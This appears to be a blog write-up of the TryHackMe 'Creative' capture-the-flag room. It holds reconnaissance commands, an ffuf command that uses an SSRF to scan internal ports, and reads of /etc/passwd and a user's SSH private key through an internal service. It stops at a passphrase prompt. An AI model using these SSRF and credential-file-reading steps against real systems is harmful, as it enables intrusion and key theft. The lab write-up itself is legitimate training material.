 ```yaml
---
title: "TryHackMe: Creative"
author: cilgin
date: 2025-07-11 13:01:01 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: false
math: false
mermaid: false
image:
  path: /assets/img/2025-07-11-TryHackMe-Creative/main.webp
---
```


Hi I'm making [TryHackMe Creative](https://tryhackme.com/room/creative) room.

---

```bash
export IP=10.10.86.65
```

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-11 13:04 +0300
Nmap scan report for 10.10.86.65
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:0b:28:e5:d3:14:25:ce:d6:46:90:27:cd:27:eb:e3 (RSA)
|   256 b3:d0:78:aa:47:a3:ce:4b:e0:a3:09:d8:21:31:3c:4d (ECDSA)
|_  256 ee:6a:8d:69:3a:f3:91:bb:d3:c9:fc:71:3d:9b:3f:69 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.32 seconds
```

Lets visit the website.

Firstly lets add creative.thm to `/etc/hosts`

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo1.webp){: width="972" height="589" }

Lets firstly fuzz the website using `gobuster`.

```bash
❯ gobuster dir -w common.txt -u http://creative.thm/ -x md,js,html,php,py,css,txt,bak -t 50
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://creative.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Extensions:              php,py,css,txt,bak,md,js,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]
/components.html      (Status: 200) [Size: 41148]
/index.html           (Status: 200) [Size: 37589]
Progress: 42651 / 42651 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing crazy.

Lets try finding subdomains.

```bash
❯ ffuf -w top_subdomains.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6 -t 50

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://creative.thm/
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/top_subdomains.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 78ms]
:: Progress: [114441/114441] :: Job [1/1] :: 688 req/sec :: Duration: [0:02:56] :: Errors: 0 ::
```

Lets add beta.creative.thm to the `/etc/hosts` and go tho the website.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo2.webp){: width="972" height="589" }

Lets open a python webserver to test this.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo3.webp){: width="972" height="589" }

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo4.webp){: width="972" height="589" }

So it directly gets the `/` endpoint. We can use this to make ssrf. Lets try getting all localhost services. Using this `ffuf` command.

```bash
❯ ffuf -w <(seq 1 65535) -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response size: 13
________________________________________________

80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 289ms]
1337                    [Status: 200, Size: 1188, Words: 41, Lines: 40, Duration: 244ms]
```

We can see that localhost:1337 is open in that machine.

So to that manually.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo5.webp){: width="972" height="589" }
![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo6.webp){: width="972" height="589" }

Its giving directory listing for / but if I click any of that directories I get 404. So we need to manually write the endpoint like /etc/passwd


```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin saad:x:1000:1000:saad:/home/saad:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash 
```

Which gave me output. 


Now try looking for any ssh keys.


If you go to `http://127.0.0.1:1337/home/saad/.ssh/id_rsa`

You can get ssh private key for saad.


```bash
❯ nvim saad.key
❯ chmod 400 saad.key
❯ ssh saad@$IP -i saad.key
Enter passphrase for key 'saad.key': 
```

Now we need to crack the ssh key password using `john` or `hashcat`
